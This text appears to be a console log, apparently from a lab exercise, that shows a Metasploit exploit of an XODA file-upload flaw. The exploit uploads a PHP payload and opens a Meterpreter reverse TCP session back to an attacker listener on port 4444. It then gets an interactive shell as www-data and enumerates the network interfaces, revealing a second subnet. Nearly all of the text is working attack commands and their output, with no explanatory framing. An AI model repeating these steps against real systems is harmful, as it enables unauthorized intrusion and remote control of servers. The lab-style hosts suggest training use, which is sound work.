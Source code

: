 ```
TARGETURI => /
msf5 exploit(unix/webapp/xoda_file_upload) > exploit

[*] Started reverse TCP handler on 192.67.240.2:4444 
[*] Sending PHP payload (PMCkzwsdIt.php)
[*] Executing PHP payload (PMCkzwsdIt.php)
[*] Sending stage (38288 bytes) to 192.67.240.3
[*] Meterpreter session 1 opened (192.67.240.2:4444 -> 192.67.240.3:54718) at 2022-12-01 08:50:41 +0000
[!] Deleting PMCkzwsdIt.php

meterpreter > 
```

```
meterpreter > sysinfo
Computer    : victim-1
OS          : Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 794 created.
Channel 0 created.
/bin/bash -i
bash: cannot set terminal process group (426): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/app/files$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:c0:43:f0:03  
          inet addr:192.67.240.3  Bcast:192.67.240.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2821 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2197 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:246653 (246.6 KB)  TX bytes:144365 (144.3 KB)

eth1      Link encap:Ethernet  HWaddr 02:42:c0:58:e7:02  
          inet addr:192.88.231.2  Bcast:192.88.231.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1602 (1.6 KB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
